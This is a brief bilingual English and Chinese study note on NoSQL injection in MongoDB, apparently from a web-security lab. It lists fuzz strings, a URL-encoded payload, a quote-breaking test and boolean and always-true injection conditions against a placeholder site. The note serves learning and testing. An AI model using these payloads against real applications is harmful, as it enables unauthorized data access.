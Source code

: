 ## NoSQL injection
- MongoDB
-  JSON 查詢
  
- **Syntax injection**
    - 注入您自己的有效載荷
    - 提交模糊字串和特殊字符
 
- **Operator injection**
    - 使用 NoSQL 查詢運算子

**Example :**
- https://insecure-website.com/product/lookup?category=fizzy
- this.category == 'fizzy'
- this.category == '\"`{\r;$Foo}\n$Foo \\xYZ\u0000
- https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00

## 查詢哪些字元會被應用程式解釋為語法
- 注入單一字元 [`] : this.category == '''
  - 如果這導致原始回應發生變化，則可能表示該'字元破壞了查詢語法並導致了語法錯誤
  - Retest : this.category == '\''
 
## 確認條件行為
- 假 : ' && 0 && 'x (lookup?category=fizzy'+%26%26+0+%26%26+'x)
- 真 : ' && 1 && 'x (lookup?category=fizzy'+%26%26+1+%26%26+'x)
- 真 JavaScript 條件，例如 '||'1'=='1 (this.category == 'fizzy'||'1'=='1')
